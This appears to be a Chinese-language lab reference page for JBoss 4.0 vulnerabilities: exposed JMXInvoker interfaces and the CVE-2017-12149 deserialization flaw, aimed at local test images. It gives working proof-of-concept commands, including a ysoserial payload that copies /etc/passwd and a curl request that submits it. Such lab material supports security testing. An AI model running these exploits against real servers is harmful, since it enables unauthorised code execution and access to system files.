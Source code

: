 ## 运维安全 - JMXInvoker/HTMLAdaptor/... 对外暴露

测试镜像

* src/base/jboss4.0

Poc

```
java -jar jboss_exploit_fat.jar -i http://127.0.0.1/invoker/JMXInvokerServlet
```

## CVE-2017-12149 - /invoker/readonly 反序列化漏洞

测试镜像

* src/base/jboss4.0

参考文档

* [JBoss反序列化漏洞（CVE-2017-12149）](https://zhuanlan.zhihu.com/p/33532884)

Poc

```
# 生成 payload
java -jar /tmp/ysoserial.jar Jdk7u21 "cp /etc/passwd /tmp" > test

# 提交
curl -vv http://127.0.0.1/invoker/readonly --data-binary @test
```

